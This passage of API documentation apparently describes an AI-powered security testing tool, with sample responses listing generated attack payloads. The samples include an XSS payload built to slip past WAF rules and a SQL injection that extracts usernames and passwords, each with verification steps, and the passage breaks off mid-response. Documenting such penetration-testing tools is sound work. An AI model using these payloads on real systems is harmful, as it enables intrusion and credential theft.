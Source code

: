 **Response**:
```json
{
    "success": true,
    "target_url": "https://example.com/search.php",
    "vulnerability_type": "xss",
    "context": "url_parameter",
    "payloads": [
        {
            "payload": "<ScRiPt>alert('XSS')</ScRiPt>",
            "description": "AI-generated XSS payload",
            "technique": "Case Manipulation Bypass",
            "success_probability": 0.85,
            "bypass_methods": ["case_manipulation", "encoding"],
            "verification_steps": [
                "Inject payload into search parameter",
                "Submit form",
                "Check for JavaScript alert",
                "Verify payload reflection"
            ],
            "risk_level": "High",
            "mitigation": "Implement proper input validation and output encoding",
            "ai_reasoning": "Case manipulation bypass chosen because target likely uses case-sensitive WAF rules"
        }
    ],
    "total_payloads": 5,
    "ai_generated": true
}
```

### Generate Contextual Payloads

**Endpoint**: `POST /ai-payloads/contextual`

**Description**: Generate payloads optimized for specific contexts

**Request Body**:
```json
{
    "target_url": "https://example.com/api/users",
    "context": "api_endpoint",
    "vulnerability_type": "sqli"
}
```

**Response**:
```json
{
    "success": true,
    "target_url": "https://example.com/api/users",
    "context": "api_endpoint",
    "vulnerability_type": "sqli",
    "payloads": [
        {
            "payload": "' UNION SELECT username,password FROM users--",
            "description": "API-optimized SQL injection",
            "technique": "Union-based SQL Injection",
            "success_probability": 0.75,
            "bypass_methods": ["encoding"],
            "verification_steps": [
                "Send payload in JSON body",
                "Check for database error messages",
                "Verify data extraction",
                "Test different union positions"
            ],
```